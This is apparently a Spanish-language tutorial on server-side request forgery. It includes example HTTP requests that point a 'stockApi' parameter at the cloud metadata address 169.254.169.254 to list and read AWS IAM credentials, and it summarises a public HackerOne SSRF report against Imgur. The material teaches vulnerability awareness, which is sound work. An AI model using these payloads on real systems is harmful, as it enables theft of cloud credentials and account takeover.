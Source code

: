 Cuando una aplicación hace una llamada a una URL (por ejemplo a una API), un atacante puede podría editar la consulta para que esa llamada se haga a otra dirección.

Vamos a ver cómo un atacante podría robar las llaves de AWS de una empresa.

## __Ejemplo__

Supongamos que una petición web que consulta el stock de un producto, se ve de la siguiente manera.

```
POST /stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded

stockApi=http://169.254.169.254/check/productId=1
```

En este caso, un atacante podría modificar la consulta para, en lugar de pedir datos de stock del producto, pedir los metadatos de la API y encontrar una lista de roles válidos.

```
POST /stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded

stockApi=http://169.254.169.254/latest/meta-data/iam/security-credentials/
```

Aunque inicialmente la API tenga restricción de acceso para que no se puedan hacer consultas externas, la consulta se origina desde el servidor web. Por esto, la API va a responder a la consulta como si tuviera autorización para hacerla.

Una vez obtenida la lista de roles, el atacante podría usar un rol para hacer la siguiente petición.

```
POST /stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded

stockApi=http://169.254.169.254/latest/meta-data/iam/security-credentials/NOMBRE-ROL
```
De esta forma, el agente malicioso obtendría acceso a la llave AWS y podría tomar el control de todas las cuentas de AWS.

# __Reporte de SSRF__

## __SSRF in https://imgur.com/vidgif/url__

Os dejo el reporte en el siguiente enlace por si le quereis echar un vistazo: https://hackerone.com/reports/115748

### __Explicacion del por qué de esta vuln__

La plataforma Imgur permite a los usuarios utilizar el servicio `video-to-gif`. Cuando un usuario solicita la conversión de dicho video, los servidores de imgur realizan una solicitud HTTP a una URL proporcionada por el usuario para descubrir el tipo de contenido y la longitud de la URL. Es evidente que para hacerlo Imgur utiliza `libcurl`. Sin embargo, esta no valida correctamente la entrada del usuario y no configura libcurl correctamente, lo que permite a un atacante utilizar varios envoltorios de protocolo libcurl distintos de http o https. Por ejemplo, un atacante puede proporcionar ftp://test.com/file como una URL y la plataforma realizará dicha solicitud de FTP.

